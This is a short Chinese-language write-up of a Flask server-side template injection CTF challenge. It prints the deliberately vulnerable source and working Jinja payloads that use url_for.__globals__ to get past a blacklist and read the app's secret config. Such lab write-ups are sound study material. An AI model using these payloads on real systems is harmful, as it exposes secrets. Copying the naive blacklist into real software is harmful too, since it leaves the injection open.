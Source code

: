 ![[Pasted image 20221129143404.png]]

---
首页长这样
```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
	return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

	return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
	app.run(debug=True)
```
显然是个`flask`的`SSTI`

```php
/shrine/{{1+1}}
```
> 2

`flag`保存在app.config里，所以只要访问`/shrine/{{config}}`就可以了啊哈哈（
```python
blacklist = ['config', 'self']
return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
```
并不行，这俩被替换成`None`了

网上给出的解决方案是利用`flask`的`url_for`函数以及`python`的`__globals__`魔法，获取`url_for`所在环境中的全局变量
```python
/shrine/{{url_for.__globals__}}
```
![[Pasted image 20221129160253.png]]

```python
/shrine/{{url_for.__globals__['current_app'].config}}
```

![[Pasted image 20221129160733.png]]

#Web #python #flask #SSTI #urlfor #globals #bypass 
